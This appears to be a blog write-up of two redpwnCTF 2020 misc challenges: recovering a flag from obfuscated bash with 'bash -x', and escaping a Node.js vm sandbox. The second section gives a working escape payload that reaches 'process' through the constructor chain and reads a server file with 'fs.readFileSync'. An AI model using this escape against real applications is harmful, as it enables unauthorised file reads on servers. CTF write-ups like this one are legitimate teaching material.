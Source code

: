 ```yaml
---
title: "redpwnCTF 2020 Misc"
date: 2020-06-29T14:16:00+00:00
weight: 9997
# aliases: ["/first"]
tags: ["writeup", "misc", "redpwnctf"]
author: "Me"
# author: ["Me", "You"] # multiple authors
showToc: true
TocOpen: true
draft: false
hidemeta: false
comments: false
description: "Writeups on misc challenges for redpwnCTF 2020"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
---
```


<img src="/img/misc.png">

---

## uglybash
**Category:** Misc

**Points:** 359

**Description:**
> This bash script evaluates to echo dont just run it, dummy # flag{...} where the flag is in the comments.
>
> The comment won't be visible if you just execute the script. How can you mess with bash to get the value right before it executes?
>
> Enjoy the intro misc chal.
>
> **Author:** arinerron
>
> **Given:** cmd.sh

### Writeup
When looking at the file, we see a bunch of gibberish bash. I did some research
and found a way to "debug" a script in bash.

The command is simple:
```
bash -x <program>
```

After running this, we see all commands ran in bash. We can do some parsing
through this debug output and retrieve:
```
+++ printf %s e
+++ printf %s c
+++ printf %s h
+++ printf %s o
+++ printf %s ' '
+++ printf %s d
+++ printf %s o
+++ printf %s n
+++ printf %s t
+++ printf %s ' '
+++ printf %s j
+++ printf %s u
+++ printf %s s
+++ printf %s t
+++ printf %s ' '
+++ printf %s r
+++ printf %s u
+++ printf %s n
+++ printf %s ' '
+++ printf %s i
+++ printf %s t
+++ printf %s ,
+++ printf %s ' '
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s ' '
+++ printf %s #
+++ printf %s ' '
+++ printf %s f
+++ printf %s l
+++ printf %s a
+++ printf %s g
+++ printf %s {
+++ printf %s u
+++ printf %s s
+++ printf %s 3
+++ printf %s _
+++ printf %s z
+++ printf %s s
+++ printf %s h
+++ printf %s ,
+++ printf %s _
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s }
```

Evaluating to:
```
dont just run it, dummy # flag{us3_zsh,_dummy}
```

### Flag
`flag{us3_zsh,_dummy}`

---

## CaasiNO
**Category:** Misc

**Points:** 402

**Description:**
> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt0
>
> `nc 2020.redpwnc.tf 31273`
>
> **Author:** asphyxia
>
> **Given:** calculator.js

### Writeup
This one isn't as easy for me to explain because I don't understand FULLY how
I am able to get this flag. From my understanding, we are in a JavaScript VM,
which allows us to run some simple JavaScript. I don't know all that much JavaScript,
but I was able to do some research to find out that this vm is escapable.

I started out by seeing:
```
> this.constructor.constructor()
function anonymous(
) {

}
```

This gave me a little inspiration to try to find the flag. I messed around with
this for a while to try to get further and further. I then was able to return this
"process" object, which I was sure had many resources. I was right.
```
> this.constructor.constructor("return this")().process
[object process]
```

I fumbled around with more code and functions until I came across this beauty:
```
> new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```

### Flag
`flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}`

## Resources
[readFileSync](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/?ref=leftbar-rightbar)

[Main idea](https://github.com/gf3/sandbox/issues/50)

---


